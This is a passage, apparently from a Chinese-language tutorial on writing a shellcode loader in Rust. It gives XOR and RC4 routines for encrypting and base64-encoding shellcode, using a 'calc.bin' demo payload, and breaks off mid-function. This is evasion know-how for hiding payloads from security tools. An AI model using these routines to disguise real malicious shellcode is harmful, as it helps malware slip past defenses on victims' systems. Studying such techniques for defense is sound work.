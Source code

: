 要进行解密，需要先进行base64解码，然后将异或加密后的shellcode再次与key进行逐个字符进行异或，即可还原shellcode。
```rust
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    base64::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = base64::decode(encrypted).expect("msg");
    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}
```

### RC4加密
Rust要实现RC4加密与加密需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。
```toml
[dependencies]
rust-crypto="0.2.36"
base64="0.13.0"
rustc-serialize = "0.3"
```

下面是实现RC4加解密的代码，在加密的函数中最终返回的是Base64编码后的字符串，而解密函数最终返回的是Vec数组，这是为了方便在shellcode loader中读取加密后的shellcode以及加载解密后的shellcode。
```rust
use crypto::rc4::Rc4;
use crypto::symmetriccipher::SynchronousStreamCipher;
use std::iter::repeat;

fn main() {
    let buffer = include_bytes!("..\\calc.bin").as_slice();
    let key = "pRNtb343heAlnPFw5QiPHKxz3Z1dzLsqhiUyBNtTiI21DjUsZ0";

    let b64_string = enc(buffer, key);
    let shellcode = dec(b64_string.as_str(), key);

    println!("== RC4 ==");
    println!("Key: {}", key);
    println!("\nEncrypted (Base-64): {}", b64_string);
    println!("\nDecrypted: {:?}", shellcode);
}

fn enc(shellcode: &[u8], key: &str) -> String {
    let mut rc4 = Rc4::new(key.as_bytes());

    let mut result: Vec<u8> = repeat(0).take(shellcode.len()).collect();
    rc4.process(shellcode, &mut result);

    base64::encode(&mut result)
}

fn dec(b64: &str, key: &str) -> Vec<u8> {
    let mut result = match base64::decode(b64) {
        Ok(result) => result,
        _ => "".as_bytes().to_vec(),
    };

    let mut rc4 = Rc4::new(key.as_bytes());
```